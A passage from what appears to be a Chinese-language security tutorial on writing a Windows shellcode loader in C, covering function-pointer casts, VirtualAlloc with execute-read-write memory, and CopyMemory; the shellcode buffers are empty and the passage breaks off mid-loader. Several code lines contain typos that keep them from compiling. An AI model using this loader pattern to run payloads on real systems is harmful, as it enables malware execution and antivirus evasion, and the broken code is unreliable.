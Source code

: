 #### 指针函数调用加载shellcode

这里有个很深的概念，与指针有关，也是最容易混淆的

```
#include<stdio.h>
void shellcode(){
    printf("hello world!\n");
}
int main(){
    printf("%p\n",shellcode); //这里是shellcode的地址，为0x401132
    ((void(*)())(0x401132))(); //这里在进行强制类型转换为指针函数后进行调用,类似于直接调用了shellcode()
    return 0;
}
```

因为函数本质来上将就是指针，所以转来转去，其实是饶了一圈，没有实际意义，但是为什么要这样写呢？这就要比较这两种写法了

```
#include<Windows.h>
#include<stdio.h>
unsigned char shellcode[] = "";
int main(){
    ((void(*)())&shellcode)(); //此时的shellcode是存放shellcode的变量,需要找到shellcode的地址,及&shellcode
    return 0;
}
#include<Windows.h>
#include<stdio.h>
unsigned char buf[] = "";
int main(){
    void *shellcode = (void*)VirualAlloc(0,sizeof(buf),MEM_COMMIT,PAGE_EXECUTE_READWRITE);
    ((void)(*)())shellcode)(); //此时的shellcode本身就是地址,不需要&
    return 0;
}
```

第一种和第二种方式，其执行的主要方式都是找到要执行的内存地址，将放入内存shellcode强制转变为函数，然后执行该函数。其要点都是寻址

在执行第一种的时候，可能还会出现一些问题

![image.png](https://cdn.nlark.com/yuque/0/2021/png/12423555/1612020706974-c781dcd3-b487-4133-a607-bdd571743e93.png)

原因是：在执行shellcode时，需要该内存区域对代码具有可读，可写，可执行的权限，而实际情况则为在该内存区域只具有可读，可写，但却没有可执行权限

![image.png](https://cdn.nlark.com/yuque/0/2021/png/12423555/1612020808489-0e954716-a46e-4cf2-b6a1-d16d3438ac62.png)

上述执行方法，是定位放入shellcode内存位置，并以函数形式返回回来，最后用函数方式调用加载shellcode

#### 加载器完整过程代码

```
#inculde<stdio.h>
#include<Windows.h>
int main(int argc, char *argv[]){ //入口函数
    unsigned char buf[] = "";//获取shellcode
    int shellcode_size = sizeof(buf);// 获取shellcode长度
    DWORD dwThreadId; //定义线程ID
    HANDLE hHandle; //线程语柄
    
    char *shellcode = (char*)VirtualAlloc(
    NULL, //基地址
    shellcode_size, //shellcode大小
    MEM_COMMIT, //内存页状态
    PAGE_EXECUTE_READWRITE //定义内存页对代码可读,可写,可执行权限
    );
    //将shellcode复制到可执行的内存页种
    CopyMemory(shellcode,buf,shellcode_size); //内存空间申请
    
```